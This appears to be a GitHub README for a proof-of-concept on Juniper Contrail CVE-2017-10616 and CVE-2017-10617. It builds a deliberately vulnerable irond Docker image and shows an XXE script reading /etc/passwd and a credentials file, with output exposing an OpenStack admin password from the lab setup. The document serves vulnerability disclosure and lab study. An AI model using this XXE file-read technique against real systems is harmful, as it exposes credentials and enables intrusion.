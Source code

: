 # CVE-2017-10616 & CVE-2017-10617

These two vulnerabilities affect Juniper Contrail version 2.2, 3.0, 3.1 and 3.2:

* Hard coded credentials (CVE-2017-10616)
* XML External Entity (CVE-2017-10617)

Vendor security bulletin can be found at [Juniper Security Alert JSA10819 2017-10](https://kb.juniper.net/InfoCenter/index?page=content&id=JSA10819&actp=METADATA).

The vulnerable service in Contrail product is an IFMAP daemon, which is packaged from [irond](https://github.com/trustathsh/irond). To keep things simple, let's continue with irond and exploit of the XXE vulnerability.

## Vulnerable Docker image of irond

We all love to play. To build the image:

```
$ cd vulnerable-irond
$ docker build -t vulnerable-irond .
```

The image is based on maven alpine image, with a clone of irond repository.

A test file matching Contrail's setup is put onto vulnerable image at `/etc/contrail/openstackrc`. This file contains OpenStack admin password, which is a rather sensitive asset.


To start a vulnerable IFMAP service:

```
$ docker run -ti --rm -p 8443:8443 vulnerable-irond
```

IFMAP service is now available on port 8443 of local machine.

## Proof of concept: reveal local files

Once a vulnerable IFMAP service is setup, do the following:

```
$ ./poc-xxe.py -g /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
...
$ ./poc-xxe.py -g /etc/contrail/openstackrc
export OS_USERNAME=admin
export OS_PASSWORD=6b000a589c700b077ef9729513e5d6fc
...
```

This effectively reveals the OpenStack admin password.

